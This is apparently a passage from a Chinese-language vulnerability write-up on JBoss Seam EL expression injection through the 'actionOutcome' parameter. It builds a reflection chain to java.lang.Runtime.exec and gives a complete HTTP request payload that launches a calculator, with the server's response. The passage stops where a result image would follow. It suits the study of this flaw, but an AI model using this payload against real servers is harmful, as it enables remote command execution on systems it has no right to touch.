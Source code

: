 JBoss EL 解析器可以在JBoss EL语句中引用服务器端会话对象、会话对象的属性以及参数。在解析基础对象后，用户可以在该对象上调用任意方法。这样一来就使得我们可以通过反射的方式来访问其他任何类及其方法，如我们常用的`java.lang.Runtime`，我们可以通过下面的语句引用来`java.lang.Runtime`类：

```java
expressions.getClass().forName('java.lang.Runtime')
```

根据反射的基础知识，我们可以通过反射调用类后，来获取该类的单一方法或者所有方法。

如获取所有的方法：

```java
expressions.getClass().forName('java.lang.Runtime').getDeclaredMethods()
```

获取单一方法：

```java
expressions.getClass().forName('java.lang.Runtime').getDeclaredMethod('getRuntime')
```

执行命令：

```java
expressions.getClass().forName('java.lang.Runtime').getDeclaredMethod('getRuntime').invoke(expressions.getClass().forName('java.lang.Runtime')).exec('xxx')
```

这样整个 EL 表达式的最终效果就出来了：

```java
%23{expressions.getClass().forName('java.lang.Runtime').getDeclaredMethod('getRuntime').invoke(expressions.getClass().forName('java.lang.Runtime')).exec('xxx')}
```

结合上面的一些函数要求：

* 要有`actionOutcome`参数

* `actionOutcome`参数要以`/`开头
* 要有目的导航地址
* 要含有`?`符号
* `
  ?`符号后要有参数
* EL 表达式要在`?参数=`的后面

综上，payload 最终如下：

```http
/seam-booking/home.seam?actionOutcome=/test.xhtml?canshu=%23{expressions.getClass().forName('java.lang.Runtime').getDeclaredMethod('getRuntime').invoke(expressions.getClass().forName('java.lang.Runtime')).exec('gnome-calculator')}
```

访问后，会返回：

```http
/seam-booking/test.seam?canshu=java.lang.UNIXProcess%40ef99e17&cid=118
```

执行效果如下：
